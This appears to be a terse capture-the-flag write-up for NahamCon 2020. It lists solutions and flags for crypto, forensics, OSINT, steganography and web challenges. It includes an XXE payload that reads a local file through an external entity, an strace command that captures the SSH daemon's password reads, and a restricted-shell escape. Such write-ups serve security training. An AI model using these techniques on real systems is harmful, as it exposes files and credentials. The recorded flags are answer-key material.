 # NahamCon 2020

## SSH Logger

```
strace -ff -p 1 -e read |& fgrep ', "\f\0\0'
[pid 24672] read(6, "\f\0\0\0\33flag{okay_so_that_was_cool}", 32) = 32
flag{okay_so_that_was_cool}
```

## Vortex

```
nc jh2i.com 50017 > out
strings out | grep flag
flag{more_text_in_the_vortex}
```

## Raspberry

```
n = 7735208939848985079680614633581782274371148157293352904905313315409418467322726702848189532721490121708517697848255948254656192793679424796954743649810878292688507385952920229483776389922650388739975072587660866986603080986980359219525111589659191172937047869008331982383695605801970189336227832715706317
e = 65537
c = 5300731709583714451062905238531972160518525080858095184581839366680022995297863013911612079520115435945472004626222058696229239285358638047675780769773922795279074074633888720787195549544835291528116093909456225670152733191556650639553906195856979794273349598903501654956482056938935258794217285615471681
```

[http://factordb.com/index.php?query=7735208939848985079680614633581782274371148157293352904905313315409418467322726702848189532721490121708517697848255948254656192793679424796954743649810878292688507385952920229483776389922650388739975072587660866986603080986980359219525111589659191172937047869008331982383695605801970189336227832715706317](http://factordb.com/index.php?query=7735208939848985079680614633581782274371148157293352904905313315409418467322726702848189532721490121708517697848255948254656192793679424796954743649810878292688507385952920229483776389922650388739975072587660866986603080986980359219525111589659191172937047869008331982383695605801970189336227832715706317
)

```
[2208664111, 2214452749, 2259012491, 2265830453, 2372942981, 2393757139, 2465499073, 2508863309, 2543358889, 2589229021, 2642723827, 2758626487, 2850808189, 2947867051, 2982067987, 3130932919, 3290718047, 3510442297, 3600488797, 3644712913, 3650456981, 3726115171, 3750978137, 3789130951, 3810149963, 3979951739, 4033877203, 4128271747, 4162800959, 4205130337, 4221911101, 4268160257]
flag{there_are_a_few_extra_berries_in_this_one}
```

## Ooo-la-la

[https://www.alpertron.com.ar/ECM.HTM](https://www.alpertron.com.ar/ECM.HTM)

```
1 830213 987675 567884 451892 843232 991595 746198 390911 664175 679946 063194 531096 037459 873211 879206 428207 (97 digits) × 1 830213 987675 567884 451892 843232 991595 746198 390911 664175 679946 063194 531096 037459 873211 879206 428213 
1830213987675567884451892843232991595746198390911664175679946063194531096037459873211879206428207
1830213987675567884451892843232991595746198390911664175679946063194531096037459873211879206428213
flag{ooo_la_la_those_are_sexy_primes}
```

## Alkatraz

```
compgen -c
source flag.txt
flag.txt: line 1: flag{congrats_you_just_escaped_alkatraz}: command not found
```

## Extraterrestrial

[https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/](https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/)

xml injection

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt">]>                                                             
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
array(1) {
  ["xxe"]=>
  string(38) "flag{extraterrestrial_extra_entities}"
}
```

## NahamConTron

[https://www.instagram.com/NahamConTron/](https://www.instagram.com/NahamConTron/
)
```
flag{i_feel_like_that_was_too_easy}
```

## December

[https://blog.kimtae.xyz/151](https://blog.kimtae.xyz/151)

```
flag{this_is_all_i_need}
```

## Unvreakable Vase

```
ZmxhZ3tkb2VzX3RoaXNfZXZlbl9jb3VudF9hc19jcnlwdG9vb30=
flag{does_this_even_count_as_cryptooo}
```

## Time Keeper

[https://web.archive.org/web/20200418214642/https://apporima.com/]([https://web.archive.org/web/20200418214642/https://apporima.com/])

## New Years Resolution

[https://github.com/domainaware/checkdmarc](https://github.com/domainaware/checkdmarc)

```
ctf osint "nameserver"
flag{next_year_i_wont_use_spf}
```

## Beep Boop

[http://dialabc.com/sound/detect/index.html](http://dialabc.com/sound/detect/index.html)
[https://github.com/ribt/dtmf-decoder?files=1](https://github.com/ribt/dtmf-decoder?files=1)

```
python3 dtmf.py flag.wav -t 22
l2b(46327402297754110981468069185383422945309689772058551073955248013949155635325)
'flag{do_you_speak_the_beep_boop}'
```

## My Apologies

[https://ctf.themanyhats.club/write-up-hyperion-gray-steganography-challenge/](https://ctf.themanyhats.club/write-up-hyperion-gray-steganography-challenge/)
[http://zderadicka.eu/hiding-secret-message-in-unicode-text/](http://zderadicka.eu/hiding-secret-message-in-unicode-text/)
[https://holloway.nz/steg/](https://holloway.nz/steg/)

```
flag_i_am_so_sorry_steg_sucks   
```

## Dead Swap

[https://bpsecblog.wordpress.com/2016/08/21/amalmot_4/](https://bpsecblog.wordpress.com/2016/08/21/amalmot_4/)

```
flag{what_are_you_doing_in_my_swap}
0x4ffee9
```

## Doh

[https://github.com/bannsec/stegoVeritas](https://github.com/bannsec/stegoVeritas)
[https://pentesttools.net/stego-toolkit-collection-of-steganography-tools-helps-with-ctf-challenges/](https://pentesttools.net/stego-toolkit-collection-of-steganography-tools-helps-with-ctf-challenges/)

```
JCTF{an_annoyed_grunt}
```

## Old School

```
zsteg -a hackers.bmp
b1,bgr,lsb,xy       .. text: "4JCTF{at_least_the_movie_is_older_than_this_software}"
```